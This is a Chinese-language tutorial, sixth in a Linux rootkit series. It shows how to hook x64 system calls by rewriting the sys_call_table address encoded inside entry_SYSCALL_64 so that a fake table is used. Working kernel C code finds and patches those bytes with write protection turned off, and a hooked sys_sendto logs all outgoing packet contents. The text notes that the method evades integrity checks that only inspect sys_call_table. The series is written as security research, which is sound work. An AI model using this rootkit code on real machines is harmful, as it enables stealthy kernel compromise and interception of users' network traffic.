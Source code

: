 Linux Rootkit 系列六：基于修改派遣例程的系统调用挂钩
====================================================

**最后修改时间** ： **2016-07-25 CST** 。

rectigu@gmail.com, 二〇一六年七月。

前言
----

**鉴于笔者知识能力上的不足，如有疏忽，欢迎纠正。**

照旧，本文所需的相关代码位于如下代码仓库：
https://github.com/NoviceLive/research-rootkit。

**测试建议：为了愉快地 Happy Hacking，请不要在物理机玩火。**

概要
----

本文为 `基于修改 sys_call_table 的系统调用挂钩`_ 的后续，
继续讲解围绕系统调用的挂钩方案。
第一部分以简要的系统调用挂钩综述纵览全局，
然后迅速切入本文的中心话题，篡改派遣例程：
对照相关反汇编与代码细致讲述如何从派遣例程中
抽取、篡改与恢复编码着系统调用表地址的那 4 个关键字节。
第二部分则是一个简易的系统调用应用示例，初级网络数据监控。

**提示** ：本文以 x64 ``syscall`` 发起的系统调用
（即派遣例程为 ``entry_SYSCALL_64``）为例，
其他情况，读者可以尝试举一反三。

第一部分：基于修改派遣例程的系统调用挂钩
----------------------------------------

1. 系统调用挂钩综述
+++++++++++++++++++

我们简要地看看从发起系统调用到完成系统调用这个过程中的控制转移，
想了解其中的详尽细节的话，可以结合参考资料阅读相关源代码。

1. 用户函数调用库函数，库函数最终发起系统调用;

   **注** ： 钩用户函数到库函数的控制转移，可以自行查找相关资料，
   似乎 ``LD_PRELOAD`` 是最受欢迎的。

2. CPU 以特权级 0 执行某个处理函数，
   这个处理函数通常叫 ``系统调用派遣例程`` ；

3. 派遣例程进行必要准备（比如保存寄存器，切换到内核栈等）
   与检查（比如系统调用号是否有效）工作之后，
   调用系统调用表中相应系统调用号的处理函数，
   这个处理函数通常叫 ``系统调用服务例程`` ；

4. 服务例程要完成任务，很可能需要调用更下层的关键函数；

   **注** ： 内联钩服务例程的下层函数，更隐蔽。参见 `高级Linux Kernel Inline Hook技术分析与实现`_ 。

5. 服务例程完成任务后返回到派遣例程，
   派遣例程进行必要的恢复（比如恢复寄存器）工作；

6. 控制权返回到发起系统调用的库函数，
   库函数进行包装处理（比如系统调用的返回值）之后返回到用户函数。

简言之， ``用户函数`` --> ``库函数`` --> ``派遣例程`` --> ``服务例程``
--> ``服务例程依赖的更底层函数`` 。

在这个过程中的每一步、每一点都可以或者可能被篡改，
不过我们倾向于篡改其中的某几个关键的控制转移点，
比如 `基于修改 sys_call_table 的系统调用挂钩`_
中讲的 ``sys_call_table`` ；
比如本文要讲的改派遣例程；
又比如篡改系统调用服务例程，这个可以使用内联挂钩，
篡改服务例程起始处的若干字节，劫持其控制权。

下面，我们看看其中的一个关键点，
``entry_SYSCALL_64`` 中的 ``sys_call_table`` 。

2. 派遣例程的篡改方式
+++++++++++++++++++++

不是说好的改 ``entry_SYSCALL_64`` 吗，
为什么 ``sys_call_table`` 又亮相了？

情况是这样子的，简单讲，
因为 ``entry_SYSCALL_64`` 的机器指令里包含
``sys_call_table`` 的地址，
如果我们改掉这几个字节，
``entry_SYSCALL_64`` 查的表也就在我们的掌控之下了。

仔细说来，基于修改派遣例程的钩法有多种不同的可能。
我们知道，在 ``x64`` 下使用 ``syscall`` 发起系统调用时，
控制权会转移到 ``MSR_LSTAR`` 中存储的地址，
这个地址也就是 ``entry_SYSCALL_64`` 的地址。

所以，第一种可能的形式就是篡改 ``MSR_LSTAR`` ，
把它改成一个假的派遣例程的地址，
让这个假的派遣例程来做系统调用的派遣。

第二种可能的形式是，不修改 ``MSR_LSTAR`` ，
而是修改 ``entry_SYSCALL_64`` 起始处的若干字节，
将控制转移到一个我们控制的函数，
由我们的函数接下来做系统调用派遣工作。
也就是内联钩 ``entry_SYSCALL_64`` 。

第三种则是，既不修改 ``MSR_LSTAR`` 也不内联钩 ``entry_SYSCALL_64`` ，
而是将 ``entry_SYSCALL_64`` 中含有的 ``sys_call_table`` 的地址替换成
我们掌控的假的 ``sys_call_table`` 的地址。接下来我们讲讲这种钩法。

3. 获取 ``entry_SYSCALL_64`` 中的 ``sys_call_table``
++++++++++++++++++++++++++++++++++++++++++++++++++++

通过反汇编 ``entry_SYSCALL_64`` ，我们可以明显的看到，
进行系统调用派遣的是这一行。
请注意，这时候的 ``rax`` 中存放着系统调用号。

::

   5f:       ff 14 c5 a0 01 60 81    call   QWORD PTR [rax*8-0x7e9ffe60]


指令形式为： ``call QWORD PTR [index * scale + disp32]`` 。
具体来看， ``index`` 也就是 ``rax`` 即系统调用号；
``scale`` 为 ``8`` 即 x64 的指针大小；
``disp32`` 为 ``-0x7e9ffe60`` ，也就是系统调用表的地址。

这一行汇编的机器码有 7 个字节，
即 ``ff 14 c5 a0 01 60 81`` ，
其中， 我们要改的是 ``disp32``，
即 ``a0 01 60 81`` ，
而这也就是 ``sys_call_table`` 的地址了。

我们使用 ``ff 14 c5`` 作为特征字节搜索
``entry_SYSCALL_64`` 的机器码，
然后读出 4 个字节的 ``sys_call_table`` 的地址，
符号拓展到 64 比特：
因为它的符号位是 1，我们可以简单的将高 32 比特补成 1 就好了。

请看代码。

.. code-block:: c

   // get_lstar_sct_addr 用于获取 entry_SYSCALL_64 机器码中编码着
   // sys_call_table 地址的那几个字节在内存中的起始地址。
   void *
   get_lstar_sct_addr(void)
   {
       u64 lstar;
       u64 index;

       // 从 MSR_LSTAR 里读出 entry_SYSCALL_64 的地址。
       rdmsrl(MSR_LSTAR, lstar);

       // 开始搜索。
       for (index = 0; index <= PAGE_SIZE; index += 1) {
           u8 *arr = (u8 *)lstar + index;

           // 判断当前的位置的三个字节是否是特征字节。
           if (arr[0] == 0xff && arr[1] == 0x14 && arr[2] == 0xc5) {
               // 找到了特征字节，将目标的地址返回。
               return arr + 3;
           }
       }

       return NULL;
   }

   unsigned long **
   get_lstar_sct(void)
   {
       // 获取目标地址。
       unsigned long *lstar_sct_addr = get_lstar_sct_addr();
       if (lstar_sct_addr != NULL) {
           u64 base = 0xffffffff00000000;
           // 获取 32 比特。
           u32 code = *(u32 *)lstar_sct_addr;
           // 直接把高 32 比特填 1 就好了。
           return (void *)(base | code);
       } else {
           return NULL;
       }
   }

参考结果
********

.. image:: images/get.png

这里需要解释一下，从截图中我们可以看到，
通过 `基于修改 sys_call_table 的系统调用挂钩`_
中的方法拿到的 ``sys_call_table`` 的地址是
``ffff8800016001a0`` ，
而从 ``entry_SYSCALL_64`` 中拿到的 ``sys_call_table`` 的地址是
``ffffffff816001a0`` 。

为什么这两个值不一致呢？
因为这两个是两个不同的虚拟地址，
它们对应的物理地址一样的。
同样看截图，它们物理地址都是 ``16001a0`` 。

把虚拟地址变成物理地址，我们可以使用 ``virt_to_phys`` ，
反过来的话，我们可以使用 ``phys_to_virt`` 。
函数原型如下：

.. code-block:: c

   static inline phys_addr_t
   virt_to_phys(volatile void *address);

   static inline void *
   phys_to_virt(phys_addr_t address);

4. 修改与恢复 ``entry_SYSCALL_64`` 中的 ``sys_call_table``
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

有了第 3 小节中实现的 ``get_lstar_sct_addr`` ，
要修改或者恢复 ``entry_SYSCALL_64`` 中的 ``sys_call_table``
并不复杂。下面是 ``set_lstar_sct`` 的实现。

.. code-block:: c

   int
   set_lstar_sct(u32 address)
   {
       unsigned long *lstar_sct_addr = get_lstar_sct_addr();
       if (lstar_sct_addr != NULL) {
           u8 *arr = (u8 *)lstar_sct_addr;
           u8 *new = (u8 *)&address;

           fm_alert("%02x %02x %02x %02x\n",
                    arr[0], arr[1], arr[2], arr[3]);
           fm_alert("%02x %02x %02x %02x\n",
                    new[0], new[1], new[2], new[3]);

           disable_wp();
           memcpy(lstar_sct_addr, &address, sizeof address);
           enable_wp();

           return 0;
       } else {
           return 1;
       }
   }

修改
****

.. code-block:: c

   # define NAME "entry"

   struct proc_dir_entry *entry;

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp);

   struct file_operations proc_fops = {
       .write = write_handler
   };

   // kernel text mapping, from phys 0
   // ffffffff80000000 - ffffffffa0000000 (=512 MB)

   // 模块映射空间地址范围。
   // ffffffffa0000000 - ffffffffff5fffff (=1526 MB)

   // 请注意：我们只能编码 4 个字节到 entry_SYSCALL_64 里。
   // 所以，我们需要使用形如 0xffffffffXXXXXXXX 的地址，
   // 这样可以借助符号拓展。
   // 静态分配可以得到这种地址，至于为什么请看模块映射空间的地址范围。
   u64 fake_sct[__NR_syscall_max + 1] = { 0 };

   // 把代码放到一个 /proc 文件的写处理函数里
   // 是为了在内核调试的时侯方便下断点。
   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp)
   {
       u64 *real_sct;

       real_sct = (u64 *)get_sct_via_sys_close();
       if (real_sct == NULL) {
           fm_alert("%s\n", "get_sct failed.");
           return count;
       }
       fm_alert("real sys_call_table: %p\n", real_sct);
       fm_alert("fake sys_call_table: %p\n", fake_sct);

       memcpy(fake_sct, real_sct, sizeof fake_sct);

       set_lstar_sct((u32)(unsigned long)fake_sct);

       return count;
   }

恢复
****

.. code-block:: c

   // 使用基于导出的 sys_close 搜内存的方法拿到表的地址。
   real_sct = get_sct_via_sys_close();
   // 拿到 entry_SYSCALL_64 中写死在机器码中的表的地址。
   lstar_sct = get_lstar_sct();

   if (real_sct == NULL || lstar_sct == NULL) {
       return 1;
   }

   fm_alert("%s\n", "==> According to sys_close:");
   fm_alert("virt: %p\n", real_sct);
   real_phys = virt_to_phys(real_sct);
   fm_alert("phys: %llx\n", real_phys);

   fm_alert("%s\n", "==> According to entry_SYSCALL_64:");
   fm_alert("virt: %p\n", lstar_sct);
   lstar_phys = virt_to_phys(lstar_sct);
   fm_alert("phys: %llx\n", lstar_phys);

   if (real_phys == lstar_phys) {
       // 两个地址是同一个，不用做恢复。
       fm_alert("%s\n", "==> Matched.");
   } else {
       // 两个地址不一样，恢复成基于 sys_close 得到的那个地址。
       fm_alert("%s\n", "==> Patching to that from sys_close...");
       // 恢复到正常的值。
       set_lstar_sct((u32)(unsigned long)phys_to_virt_kern(real_phys));
   }

参考结果
********

.. image:: images/set-rec.png

**请注意顺序！**

卸载 ``setko`` 之前，需要确保已经恢复到原来的值；
否则，机器将不能继续运行。

5. 比较
+++++++

这种钩法相比于直接改 ``sys_call_table`` 有什么优势呢？

痕迹更少。
或者说，可以被检测到的、对系统的更改更少，我们只修改了派遣例程的 4 个字节，
而真的 ``sys_call_table`` 完好无损。

因而，对于那些只检测 ``sys_call_table`` 完整性
而不检查派遣例程完整性的检测逻辑，本文的方法是可以躲过检测的。

第二部分：基于系统调用挂钩的初级流量监视
----------------------------------------

监视本机发出去的数据包。
考虑到 ``sys_send`` 是用 ``sys_sendto`` 实现的，
所以我们只钩 ``sys_sendto`` 就好了。

1. 伪造假的 ``sys_call_table`` 并钩调其中的 ``sys_sendto``
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

.. code-block:: c

   real_sct = get_sct_via_sys_close();
   if (real_sct == NULL) {
       return 1;
   }

   real_phys = virt_to_phys(real_sct);
   fm_alert("real sys_call_table: %p phys: %llx\n",
            real_sct, real_phys);
   fm_alert("fake sys_call_table: %p phys: %llx\n",
            fake_sct, virt_to_phys(fake_sct));

   // 复制真表的内容到假表。
   memcpy(fake_sct, real_sct, sizeof fake_sct);

   // 钩调假表中的 sys_sendto。
   HOOK_SCT(fake_sct, sendto);

   // 把 entry_SYSCALL_64 中的真表地址替换成假表地址。
   set_lstar_sct((u32)(unsigned long)fake_sct);

2. sys_sendto 的钩子函数
++++++++++++++++++++++++

.. code-block:: c

   asmlinkage long
   fake_sendto(int fd, void __user *buff, size_t len, unsigned flags,
               struct sockaddr __user *addr, int addr_len)
   {
       void *kbuf = kmalloc(len + 1, GFP_KERNEL);
       if (kbuf != NULL) {
           if (copy_from_user(kbuf, buff, len)) {
               fm_alert("%s\n", "copy_from_user failed.");
           } else {
               if (memcmp(kbuf, "GET", 3) == 0 ||
                   memcmp(kbuf, "POST", 4) == 0) {
                   // 如果是 GET 与 POST 我们就按文本方式打印到日志。
                   print_ascii(kbuf, len, "ascii");
               } else {
                   // 如果是其他内容，打印 16 进制 dump 到日志。
                   print_memory(kbuf, len, "memory");
               }
           }
           kfree(kbuf);
       } else {
           fm_alert("%s\n", "kmalloc failed.");
       }

       // 交给真的 sys_sendto 处理，并返回。
       return real_sendto(fd, buff, len, flags, addr, addr_len);
   }

3. 测试
+++++++

参考结果1： ``ping``
********************

``ping`` 发出的包，这里我们就不看其结构了。

.. image:: images/ping.png

参考结果2： ``HTTP GET / POST``
*******************************

打开浏览器，随手打开个 ``HTTP`` 网站，
可以看到右侧日志窗口飞快在显示发出去的各种网络数据，
比如 ``HTTP GET``。

.. image:: images/http.png

第三部分： 参考资料与延伸阅读
-----------------------------

1. 参考资料
+++++++++++

- `How does the Linux kernel handle a system call <https://0xax.gitbooks.io/linux-insides/content/SysCall/syscall-2.html>`_

- `Documentation/x86/x86_64/mm.txt <https://www.kernel.org/doc/Documentation/x86/x86_64/mm.txt>`_

2. 延伸阅读
+++++++++++

- `高级Linux Kernel Inline Hook技术分析与实现`_
- `X86-64 Instruction Encoding <http://wiki.osdev.org/X86-64_Instruction_Encoding>`_

.. _基于修改 sys_call_table 的系统调用挂钩: http://www.freebuf.com/sectool/105713.html

.. _高级Linux Kernel Inline Hook技术分析与实现: http://old.sebug.net/paper/pst_WebZine/pst_WebZine_0x03/html/%5BPSTZine%200x03%5D%5B0x03%5D%5B%E9%AB%98%E7%BA%A7Linux%20Kernel%20Inline%20Hook%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90%E4%B8%8E%E5%AE%9E%E7%8E%B0%5D.html

